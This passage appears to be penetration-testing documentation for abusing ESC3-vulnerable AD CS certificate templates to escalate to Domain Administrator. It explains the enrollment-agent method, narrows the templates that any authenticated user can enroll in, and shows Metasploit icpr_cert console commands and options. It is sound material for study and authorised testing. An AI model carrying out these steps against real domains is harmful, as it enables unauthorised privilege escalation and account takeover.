 ## Exploiting ESC3 To Gain Domain Administrator Privileges
To exploit ESC3 vulnerable templates we will use a similar process to ESC2 templates but with slightly different steps. First, lets return to the earlier output where we can find several templates that are vulnerable to ESC3 attacks. However we need to split them by attack vector. The reason is that the first half of this attack needs to use the ESC3_TEMPLATE_1 vulnerable certificate templates to enroll in a certificate template that has the Certificate Request Agent OID (1.3.6.1.4.1.311.20.2.1) that allows one to request certificates on behalf of other principals (such as users or computers).

The second part of this attack will then require that we co-sign requests for another certificate using the certificate that we just got, to then request a certificate that can authenticate to the domain on behalf of another user. To do this we will need to look for certificates in the `ldap_esc_vulnerable_cert_finder` module which are labeled as being vulnerable to the ESC3_TEMPLATE_2 attack.

The list of ESC3_TEMPLATE_1 vulnerable templates is pretty short and consists of a single template:
- ESC3-TEMPLATE-1 - Vulnerable to ESC3_TEMPLATE_1 and allows enrollment via any authenticated domain user.

ESC3_TEMPLATE_2 are more plentiful though and we can find a few that are of interest:
- SubCA - Again as mentioned earlier can only be enrolled in by Doman Admins and Enterprise Admins, so not a viable vector.
- ESC3-Template2 - Enrollable via any authenticated domain user.
- User - Enrollable via any authenticated domain user.
- Administrator -  Can only be enrolled in by Doman Admins and Enterprise Admins, so not a viable vector.
- Machine - No real overlap between Domain Computers and Authenticated Users I don't think?
- DomainController - Can only be enrolled in by Domain Admins and Enterprise Admins, so not a viable vector.

Narrowing this list down to those we can actually enroll in as users, this leaves us with  `User` and `ESC3-Template2` as templates that can be used for the second part of this vulnerability.

We'll first get the cert using `ipcr_cert` with the `ESC3-Template1` certificate.

```
msf6 > use auxiliary/admin/dcerpc/icpr_cert
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   ALT_DNS                         no        Alternative certificate DNS
   ALT_UPN                         no        Alternative certificate UPN (format: USER@DOMAIN)
   CA                              yes       The target certificate authority
   CERT_TEMPLATE  User             yes       The certificate template
   ON_BEHALF_OF                    no        Username to request on behalf of (format: DOMAIN\USER)
   PFX                             no        Certificate to request on behalf of
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framew
                                             ork/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        The Windows domain to use for authentication
   SMBPass                         no        The password for the specified username
   SMBUser                         no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



```